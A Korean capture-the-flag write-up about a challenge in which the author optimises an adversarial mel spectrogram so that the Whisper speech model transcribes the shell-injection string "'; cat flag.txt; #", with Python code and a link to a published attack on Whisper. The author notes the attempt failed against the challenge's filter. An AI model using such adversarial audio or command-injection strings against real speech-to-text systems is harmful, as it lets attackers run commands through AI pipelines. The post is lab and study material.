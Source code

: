 ## overall
토요일, 7 6 2025, 14:30 KST — 월요일, 9 6 2025, 02:30 KST
### Team Rank
* 1365 score
* #54 place
### writeup
![alt text](image.png)

꿈과 희망 안준다고 시비털고싶지도않음 그냥 ㅇㅅㅇㅋㅋㅋ 되는 타입의 ctf

별개로 좀 멘탈적으로 힘든 시기였어서 (많이는 아니고 ㅇㅇ..원래 연휴끼면 멘탈이 힘들어짐 일을 좀 쳐 해야 정신줄 잡는타입) 시간투자를 잘 못한거같아 아쉬운 것도 있다

### misc
`dw` [논문](https://arxiv.org/pdf/2210.17316) 일단 엄청 재밌는 문제라는건 인정해야겠다. 나는 TTS / mel spectrogram 두 가지 방법으로 접근했는데 .. 지피티가 다 한거긴 하지만 우선 그래도 나는 멜 생성으로 방향을 잡았었다는 점

```
# 🔤 Tokenizer 불러오기 (요거 중요!)
from whisper.tokenizer import get_tokenizer
tokenizer = get_tokenizer(multilingual=model.is_multilingual)

# 목표 문자열 설정
target_text = "'; cat flag.txt; #"
tokens = torch.tensor([tokenizer.encode(target_text)], device=model.device)
print("🎯 Target tokens:", tokens)

# 🎛 멜 스펙트로그램 초기화
mel = torch.randn(1, 80, 3000, requires_grad=True, device=model.device)  # ⬅ 수정됨
optimizer = torch.optim.Adam([mel], lr=1e-2)

# 🔁 최적화 루프
for step in range(500):
    audio_features = model.encoder(mel)
    logits = model.decoder(tokens[:, :-1], audio_features)
    loss = torch.nn.functional.cross_entropy(logits[0], tokens[0, 1:])
    optimizer.zero_grad()
    loss.backward()
    optimizer.step()

    if step % 50 == 0:
        print(f"Step {step}: loss = {loss.item():.4f}")

# 📤 mel 저장
mel_np = mel.detach().cpu().numpy()[0]
np.save("exploit_mel.npy", mel_np)

# 🔁 mel → waveform (Griffin-Lim 사용)
sr = 16000
wav = librosa.feature.inverse.mel_to_audio(mel_np, sr=sr, n_fft=400, hop_length=160, win_length=400)
sf.write("exploit.wav", wav, sr)

# 🎵 mp3 변환
audio = AudioSegment.from_wav("exploit.wav")
audio.export("exploit.mp3", format="mp3")

# 📥 다운로드
from google.colab import files
files.download("exploit.wav")
files.download("exploit.mp3")
files.download("exploit_mel.npy")
```

그렇다면, 실제 논문에 나와있는 익스플로잇과 나의 익스플로잇이 어떻게 다른지? 그리고 내 멜은 스피치 필터를 피해갈 수 없어서 토크나이저의 ';' 를 우회할 수 없었는데 어떻게 이 논문의 [코드](https://github.com/RaphaelOlivier/whisper_attack)는 우회할 수 있었는지.... 는 차차 시간있을때 확인해봐야 할 듯. 